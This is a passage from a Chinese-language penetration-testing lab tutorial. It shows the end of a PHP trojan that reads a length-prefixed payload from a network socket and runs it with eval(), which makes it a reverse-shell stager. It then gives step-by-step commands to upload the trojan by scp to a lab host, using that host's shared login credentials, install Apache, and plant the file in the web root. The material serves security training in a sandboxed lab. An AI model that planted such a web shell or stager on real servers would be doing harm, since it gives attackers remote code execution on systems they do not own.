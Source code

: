 ```
$a = unpack("Nlen", $len);
$len = $a['len']; 
$b = ''; 

while (strlen($b) < $len) {

    // 根据类型 stream，或者 socket 调用相应读取数据函数
    switch ($s_type) { 
        case 'stream': $b .= fread($s, $len-strlen($b)); break;
        case 'socket': $b .= socket_read($s, $len-strlen($b)); break; 
    } 
} 

// 保存 $s 值为全局变量
$GLOBALS['msgsock'] = $s;

// 保存 $s_type 类型值为全局变量
$GLOBALS['msgsock_type'] = $s_type;

eval($b);

die();
```

### 4.3 上传到目标靶机

将生成的 PHP 木马文件件上传到实验楼宿主机，也就是实验楼目标靶机，IP 地址为 `192.168.122.1`。一般情况下，查看本机的 ip 地址命令为 `ifconfig`。下面我们将文件进行上传，输入如下命令：

```
# 实验楼环境中，直接上传到目标主机的网站目录下，会显示没有权限，所以先上传到目标主机
# 将木马程序上传到目标主机的 tmp 文件夹下
scp hello.php shiyanlou@192.168.122.1:/tmp
```
其中宿主机的账号名称是 `shiyanlou`，密码也是 `shiyanlou`:

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/8797/1534152691247.png)

在实验楼本机（也就是宿主机）安装 apache2 并开启 `apache` 服务，另外还要安装 php5，用以测试 PHP 木马：

```bash
#更新软件源
sudo apt-get update
#安装 apache2
sudo apt-get install -y apache2
#开启 apache 服务
sudo service apache2 start
```

输入如下命令，将木马文件，复制到网站的根目录下：

```
# 将 PHP 木马程序拷贝到网站目录下
sudo cp /tmp/hello.php /var/www/html/
```
